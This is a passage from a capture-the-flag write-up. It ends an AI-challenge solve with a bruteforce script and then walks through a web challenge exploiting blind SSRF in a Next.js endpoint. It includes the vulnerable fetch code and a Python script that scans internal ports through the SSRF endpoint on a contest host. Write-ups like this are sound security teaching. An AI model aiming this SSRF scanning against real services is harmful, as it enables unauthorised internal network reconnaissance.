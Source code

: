 ```python

if __name__ == "__main__":
    print("Starting bruteforce...")
    multiprocessing.freeze_support()  # Required for Windows
    if not bruteforce():
        print("Key not found")
```

But it immediately failed. There were 63 files with over 600 words, it was too good to be true. So I started working my way down, commenting out files with the least number of words (51, 26, and 52 in the list) that would be the most likely false positives. Until I eventually hit the solve!

![[Pasted image 20250330011017.png|Pasted image 20250330011017.png]]

teddy had been writing his own bruteforce in the background, with only 59 known bits (different word counter maybe?), and his finished around 15 minutes later.

It seemed a bit offtopic for an AI chal rather than misc though. Turns out the intended solve was calculating perplexity using qwen's open weights, and the author was pretty disappointed. dfyz used a really nice approach though - qwen logprob of next token for each response - and I hope they do a writeup. That might be a generalised solution too.
## web - Hide and Seek

>Play Hide-and-Seek with pretty button!  
( + I don't know the internal web server's port exactly, but I heard it's "well-known". )

A three-tier webapp, we only get source for the external Next.js server and a `docker-compose.yml` with static IPs for the internal webserver and db. The Next.js server had a single endpoint `POST /api/reset-game`, with blind SSRF in a body parameter `{"url":"https://webhook.tplant.com.au/273441c2-d8d2-47fb-bb3d-107187ac0560"}`.

```ts
const response = await fetch(`${body.url}?date=${Date()}&message=Congratulation! you found button!`, {
	method: "GET",
	redirect: "manual",
});
...
return NextResponse.json({ message: "Sended!" }, { status: 200 });
```

It would ratelimit clients by IP from `x-forwarded-for` for 10 mins after a successful request to `url`, but not unsuccessful, so I bruteforced the internal webserver port hinted by the flavourtext to get `http://192.168.200.120:808`.

```python
import requests

url = "http://3.38.141.72:3000/api/reset-game"

def try_port(port):
    payload = {
        "url": f"http://192.168.200.120:{port}"
    }
    try:
        response = requests.post(url, json=payload)
        return response.status_code == 200 and "success" in response.text.lower()
    except requests.exceptions.RequestException:
        return False

def port_scan():
    for port in range(1, 10000):
        print(f"Trying port {port}...", end='\r')
        if try_port(port):
            print(f"\nSuccess! Found working port: {port}")
            return port
```